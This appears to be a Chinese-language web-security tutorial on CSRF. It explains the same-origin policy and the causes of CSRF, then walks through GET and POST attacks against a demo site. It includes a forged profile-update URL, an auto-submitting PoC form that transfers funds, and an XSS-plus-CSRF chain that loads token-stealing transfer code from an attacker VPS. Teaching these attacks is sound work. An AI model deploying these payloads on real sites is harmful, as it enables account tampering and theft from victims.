## `CSRF`引入

#### 1.同源策略

域名，端口，协议三者完全相同的才是同源的

目的：用来阻止不同网站之间的非法数据访问，防止跨站窃取信息，`CSRF，XSS`等攻击


#### 2.漏洞简单介绍

简答来说就是：

攻击者趁着你刚在银行系统里登录完、身份还在有效期内时（浏览器保存了你的认证状态），诱导你点击了一个带有伪造指令的恶意链接（该链接附带着恶意操作）。 此时，你的浏览器会自动带上你的合法身份凭证去向银行发送请求。由于服务器看到的是合法的凭证，它就会把这次请求当成你本人的意愿去执行（比如转账、发邮件、买东西）


#### 3.具体流程

1、你登录了个人后台 / 论坛 / 支付网站，浏览器保存了登录 Cookie。
2、你点开攻击者发的一张图片、链接、恶意网页。
3、这个页面偷偷向目标网站发起请求（比如改密码、转账、发帖子、退出登录）。
4、浏览器自动带上你的登录 Cookie，网站以为是你本人操作，请求直接生效

漏洞的危害取决于你在网站上能够做些什么


#### 4.漏洞成因

**没有检查`referer`以及未在头部设置token**


#### 5.漏洞要素

1. 操作

你想要受害者做什么，转账，修改个人信息等

2. 认证

基于cookie的会话处理，因为要携带cookie进行访问，其他的认证字段是无法携带的，所以需要哪个网站或者应用程序仅仅通过cookie进行会话处理

3. 没有不可预测的参数

因为要构造请求，所以不能含有不可预测的参数

---

## GET型`CSRF`

#### 1.受害者视角




正常登录



查看个人资料


#### 2.`hacker` view




修改个人信息拿到`url`

```url
http://xxx.com/profile.php?action=update&email=hacker%40evil.com&bio=victim+%E8%87%A3%E6%9C%8D%E4%BA%8E%E5%90%BE
```



把这个`url`发送给victim


#### 3.victim点击hacker发给他的信息

然后点击完之后就发现自己的信息被修改了





---

## POST型`CSRF`

#### hacker

转账操作，看数据包






会生成一个

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://xxx.com/transfer.php" method="POST">
      <input type="hidden" name="csrf&#95;token" value="0f8a4937a5520a5732c95b4fc891e24881ad6602129ddf931fcc18e273432690" />
      <input type="hidden" name="to&#95;user" value="hacker" />
      <input type="hidden" name="amount" value="2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

然后创建一个文件，把这个html文件发送给受害者



#### 受害者

点击该文件，并点击下图中的框框



可以看到原本900们给的钱变成700了



然后hacker这边钱变多了



---

## 和`XSS`的组合拳

#### token

是用来防止`CSRF`的安全令牌，是一串随机的字符串

作用：让服务器判断是不是用户本人主动发起的


**工作流程：**

1. 页面加载服务端生成的随机token，嵌入页面，同时存入服务端会话

2. 用户发起接口请求的时候，数据包会带上这个token
3. 服务器收到请求会检查token，如果一直则是合法的，不一致则是违规


#### `CSRF` 和 `XSS` 组合

思路：使用`xss`投取token，`csrf`就可以利用token伪造请求

1. 写个脚本：

```javascript
document.addEventListener('DOMContentLoaded', () => {
  // 1. 安全获取 CSRF Token 元素
  const tokenInput = document.querySelector('input[name="csrf_token"]');
  if (!tokenInput) {
    console.error('[CSRF] 未找到 name="csrf_token" 的 input 元素！');
    // 可选增强：禁用相关表单按钮防止无效提交
    // document.querySelector('#transferBtn')?.setAttribute('disabled', 'true');
    return;
  }
  const token = tokenInput.value; // 直接复用已获取的元素，避免重复查询

  // 2. 构造并发送 POST 请求
  fetch('transfer.php', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded',
    },
    body: new URLSearchParams({
      csrf_token: token,   // 使用已验证的 token
      to_user: 'hacker',
      amount: '50'
    })
  })
  .then(response => {
    if (!response.ok) throw new Error(`HTTP ${response.status}`);
    return response.json();
  })
  .then(data => alert(data.message || '操作成功'))
  .catch(error => {
    console.error('[请求失败]', error);
    alert('请求异常，请稍后重试');
  });
});
```

放在`VPS`上

2. 启动服务

```bash
python3 -m http.server
```

3. 在存在`XSS`的地方插入

```
<script src="http://VPS:8000/1.js"></script>
```

4. 其他人一旦看到了留言就会执行脚本`post`请求中的操作